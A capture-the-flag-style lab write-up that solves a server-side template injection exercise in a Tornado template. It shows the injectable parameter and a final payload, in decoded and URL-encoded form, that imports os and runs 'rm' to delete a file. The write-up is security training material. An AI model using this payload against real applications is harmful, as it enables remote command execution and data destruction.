 # Basic server-side template injection (code context)
# Objective
This lab is vulnerable to server-side template injection due to the way it unsafely uses a `Tornado` template. To solve the lab, review the `Tornado` documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Logged in user has a possibility to change his prefered name to: name, first name, nickname. The choosen option is displayed when user makes commets on the blog.
|![](Images/image-6.png)|
|:--:| 
| *Preferred name setting* |
|![](Images/image-7.png)|
| *Preferred name set to: name* |
|![](Images/image-8.png)|
| *Preferred name set to: first name* |
|![](Images/image-9.png)|
| *Preferred name set to: nickname* |

The description of this lab informs that there is a `Tornado` template in use. The `blog-post-author-display` parameter is vulnerable to Server-side template injection.
|![](Images/image-10.png)|
|:--:| 
| *SSTI test* |
|![](Images/image-11.png)|
| *Expression was executed by template engine* |

## Exploitation

|![](Images/image-12.png)|
|:--:| 
| `pwd` command execution |
|![](Images/image-13.png)|
| *Result of the above SSTI* |

Final payload:
```
Decoded: user.name}}{% import os %}{{os.system('rm /home/carlos/morale.txt')
Encoded: user.name%7d%7d%7b%25%20import%20os%20%25%7d%7b%7bos.system('rm%20%2fhome%2fcarlos%2fmorale.txt')
```
|![](Images/image-14.png)|
|:--:| 
| `rm /home/carlos/morale.txt` - Delete file morale.txt |

Visit to the site blog with this user comment will triger payload and delete the file `morale.txt`.
